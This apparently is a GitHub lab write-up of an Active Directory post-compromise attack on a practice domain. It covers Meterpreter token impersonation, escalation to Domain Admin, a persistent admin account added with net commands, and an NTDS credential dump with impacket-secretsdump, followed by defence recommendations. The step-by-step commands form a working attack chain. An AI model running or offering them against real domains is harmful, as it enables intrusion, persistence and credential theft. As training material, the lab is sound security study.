



# 🛡️ Active Directory Post-Compromise (Token Impersonation → Domain Dump)


---

## 📌 Overview

In this lab, I performed a **post-compromise attack in an Active Directory environment** using **Meterpreter (Metasploit)**.

The attack flow included:

- Token impersonation
- Privilege escalation to Domain Admin
- Creating a persistent user
- Dumping domain credentials using Impacket

---

## 🎯 Objectives

- Gain SYSTEM-level access on a domain-joined machine
- Enumerate and impersonate available tokens
- Escalate privileges to Domain Admin
- Create a new domain admin user (persistence)
- Dump NTDS (Active Directory database)

---

## 🧪 Lab Environment

- **Attacker:** Kali Linux
- **Victim Machine:** Domain-joined Windows system (Punisher)
- **Domain Controller:** Windows Server
- **Domain:** `MARVEL.local`

---

## ⚙️ Tools Used

- Metasploit Framework (Meterpreter)
- Incognito (Token manipulation)
- Impacket (`secretsdump`)
- Windows CMD

---

## 🚀 Attack Flow

### 🔹 Step 1 – Load Incognito

```bash id="a1"
load incognito
```

---

### 🔹 Step 2 – List Available Tokens

```bash id="a2"
list_tokens -u
```

---

### 🔹 Step 3 – Impersonate User Token

```bash id="a3"
impersonate_token marvel\\fcastle
```

---

### 🔹 Step 4 – Revert & Check SYSTEM Access

```bash id="a4"
rev2self
getuid
```

Expected:

```text
NT AUTHORITY\SYSTEM
```

---

### 🔹 Step 5 – Impersonate Domain Administrator

```bash id="a5"
impersonate_token marvel\\administrator
```

---

### 🔹 Step 6 – Create New Domain User

```cmd id="a6"
net user <USERNAME> <PASSWORD> /add /domain
```

---

### 🔹 Step 7 – Add User to Domain Admins

```cmd id="a7"
net group "Domain Admins" hawkeye /ADD /DOMAIN
```

✔️ This step provides full domain control and persistence.

---

### 🔹 Step 8 – Dump Domain Credentials

```bash id="a8"
impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@<DC_IP>
```

---

## 📊 Results

Successfully extracted:

- Local SAM hashes
- LSA Secrets
- Domain user hashes
- Kerberos keys

### 🔥 Key Accounts Dumped

- Administrator
- krbtgt
- SQLService
- fcastle
- hawkeye

---

## 🧠 Key Learnings

- Token impersonation can lead to full domain compromise
- SYSTEM access ≠ Domain Admin (must impersonate DA)
- Privilege escalation is required before NTDS dump
- Creating a new admin user ensures persistence

---

## 🛡️ Defense Recommendations

- Restrict token impersonation privileges
- Monitor abnormal token usage
- Limit Domain Admin group membership
- Enable logging for privilege escalation
- Detect suspicious account creation

---

## 📸 Screenshots





---

## 🔚 Conclusion

This lab demonstrates a complete **post-compromise attack chain**:

1. SYSTEM access
2. Token impersonation
3. Domain Admin escalation
4. Persistence via new user
5. Full domain credential dump

---

## 📎 Author

- GitHub: https://github.com/bilalhunzla
- LinkedIn: www.linkedin.com/in/hunzla-bilal

---
